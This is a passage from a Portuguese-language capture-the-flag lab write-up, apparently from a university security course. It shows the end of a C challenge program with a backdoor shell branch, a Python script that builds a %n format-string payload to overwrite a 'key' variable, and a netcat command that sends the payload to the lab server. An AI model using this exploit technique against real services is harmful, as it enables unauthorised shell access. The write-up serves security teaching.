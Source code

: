 ```c
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
A notar:

1. Não existe variável global que contenha a *flag*.
2. Existe uma *backdoor* que dá acesso a uma *shell* que possivelmente permitirá ganhar acesso à flag.
3. Tal como desafio anterior, existe uma vulnerabilidade de *format strings*.

Intuitamente, teremos de sobrescrever o valor de *key* para corresponder ao indicado de modo a sucesseder no *if-else branch* e nos dar acesso à *shell*.

Como os endereços são estáticos tal como no desafio anterior, procederemos a obter o endereço da variável `key` de modo semelhante:

![](img/lab07/ctf-task-2-key-address.png)

Munidos desta informação, utilizaremos a sequência `%n` para escrever o valor pretendido para `key`.

```python
with open('badfile', 'wb') as fl:
    fl.write(b'AAAA')
    fl.write(0x804b324.to_bytes(4, byteorder='little'))
    fl.write(b'%48871x')
    fl.write(b'%n\n')
```
Neste pequeno script, utilizamos duas *format strings*, pelo que é necessário ter um valor de *padding* de modo a que o endereço da variavel esteja no topo da *stack* quando a função ler `%n`.

Quanto ao valor do *length specifier*, apenas foi efetuada a conversão do valor da *key* pretendida para decimal, ao qual foi subtraído o número de *bytes* aquém da sequência.

Finalmente, semelhante ao que foi feito anteriormente:

```bash
(cat badfile ; cat) | nc ctf-fsi.fe.up.pt 4005
```

![](img/lab07/ctf-task-2-output.png)
